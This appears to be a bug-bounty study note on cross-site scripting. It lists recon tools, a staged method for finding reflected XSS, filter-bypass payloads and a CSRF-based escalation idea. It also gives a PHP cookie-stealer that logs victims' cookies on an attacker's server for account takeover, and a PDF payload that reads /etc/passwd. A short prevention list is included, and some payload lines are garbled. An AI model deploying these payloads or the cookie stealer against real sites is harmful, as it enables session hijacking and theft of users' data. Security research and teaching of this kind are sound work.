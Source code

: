 # XSS


### tools:

- gau
- autoreapeter
- logger++
- paramspider
- paramminer

- wayback url
- waymore
- WAFW00F
- kxss
- dalfox

- ffuf
- xsshunter
- xsser

### what is xss?

XSS : we can inject custom javascripts code in HTML (script template)

we have three model : DOM - Reflected - Stored

Reflected: in reflected type we are looking for any text we interred in input, show in HTML or anywhere of site 
I mean everywhere like title - the hole body - also headers - cookies and sessions

### how to find a reflected XSS?

Stage 1 → Look for holes throughout the site using tools and search for suspicious links such as [www.ex.com/contect1?=query](http://www.ex.com/contect1?=query).

Tools: gau (get all urls), ffuf, wayback urls.

Stage 2 → Test the URL you found and see which URL reflects that query in HTML.

Tools: autorepeater and logger++ burpsuite extensions.

Auto repeater setting: response.body CONTAINS "blab".

Stage 3 → When you find out which URL is reflected, it's time to set your payload.

Tools: kxss, Dalfox, xsshunter, xsser.

Stage 4 → Find out the target using any prevention or WAF.

How? Set custom characters like >, ", / and observe the site's behavior.

Tools: WAFW00F.

Stage 5 → When you find out the site's behavior, it's time to create your payload and go for the exploit.

It's better to do it manually.

### Tricks:

- Sometimes, changing the position of the query can still exploit the payload: example.com[/?](http://bugdasht.ir/?o)p=query ⇒ example.com[/?query=p](http://bugdasht.ir/?query=p)
- You can customize the headers you want: sitemap → scan → scan type = audit selected items → scan configuration → select from library.
- Auto repeater setting: response.body CONTAINS "blab".

How to prevent XSS reflected:

1. Use HTML encoding.
2. Use URL encoding.
3. Sanitize inputs.
- ** These prevention methods must be server-side; anything else can easily be bypassed.
- look content parameter: to set paylaod

### payload:

its better you fuzz with polyglots payloads.

[https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

### XSS BYPASS

- Mixed Case

```
<Script>alert(document.cookie)</Script>
```

- Unclosed Tags

```
<svg onload="alert(1)"
```

- Uppercase Payloads

```jsx
<SVG ONLOAD=ALERT(1)>
```

- Encoded XSS

```jsx
(Encoded) %3Csvg%20onload%3Dalert(1)%3E
```

- JS Lowercased Input

```
<SCRİPT>alert(1)</SCRİPT>
```

- PHP Email Validation Bypass

```
<svg/onload=alert(1)>"@gmail.com
```

- PHP URL Validation Bypass

```
javascript://%250Aalert(1)
```

- Inside Comments Bypass

```jsx
<!--><svg onload=alert(1)-->
```

### now what to do with a post based xss?

in post based xss cuz there is no such impact so you must create a way to lead a special scenario so in report give so mush higher impact

like lead a CSRF scenario to Post XSS

e.x: if you PARAM tamper and change GET to POST method and this lead the payload to XSS that post based

so there is no impact 

now what if you create a form that's lead victim send request with POST to the payload?

### Cookies Stealers

the best scenario for hijacking client cookies and leads this scenario to account take over is stealing cookie.

the simplest cookie stealer code:

```jsx
<?php
$cookie = $_GET['txt'];
$file = fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n");
fclose($file);
?>
```

[https://github.com/TheWation/PythonCookieStealer](https://github.com/TheWation/PythonCookieStealer)

[https://github.com/TheWation/NodeJsCookieStealer](https://github.com/TheWation/NodeJsCookieStealer)

You must set a payload in your personal server and give it to the target.

Example: `<script url="personal-server-ip"></script>`.



### XSS to Exfiltrate Data from PDFs

you can actually use special XSS payloads in pdf file to read or Exploit RCE on web server:

example payload

```php
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};http://x.open(‘GET’,’file:///etc/hosts’);x.send();</script><script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};http://x.open(‘GET’,’file:///etc/passwd’);x.send();</script>
```

see the burpsuite section

[Burpsuite](https://www.notion.so/Burpsuite-ff905e4d4e974bcf8ffd4e45e872801d?pvs=21)

[https://github.com/luigigubello/PayloadsAllThePDFs/tree/main](https://github.com/luigigubello/PayloadsAllThePDFs/tree/main)